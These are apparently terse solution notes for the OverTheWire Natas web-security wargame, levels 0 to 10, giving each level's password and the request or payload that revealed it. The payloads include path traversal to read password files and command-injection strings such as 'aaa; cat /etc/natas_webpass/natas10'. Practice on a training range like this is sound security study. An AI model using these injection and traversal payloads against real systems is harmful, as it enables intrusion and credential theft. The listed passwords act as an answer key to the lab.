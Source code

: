 level0 - level1
```html
<!--The password for natas1 is g9D9cREhslqBKtcA2uocGHPfMZVzeFK6 --> 
```
level1 - level2
```html
<!--The password for natas2 is h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7 -->
```

level2 - level3
```
http://natas2.natas.labs.overthewire.org/files/users.txt
G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q
```

level3 - level4
```
http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt
natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm
```

level4 - level5
```
The password for natas5 is Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD
```

level5 - level6
```
The password for natas6 is fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR
```

level6 - level7
```
http://natas6.natas.labs.overthewire.org/includes/secret.inc
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
Access granted. The password for natas7 is jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr
```

level7 - level8
```
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB
```

level8 - level9
```
echo base64_decode(strrev(hex2bin("3d3d516343746d4d6d6c315669563362")));
oubWYf2kBq

Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd
```

level9 - level10
```
natas9: param
needle: aaa; cat /etc/natas_webpass/natas10; ls
D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE
dictionary.txt
```

level10 - level11
```
natas10: param
needle: -v aaa /etc/natas_webpass/natas11 
1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg
```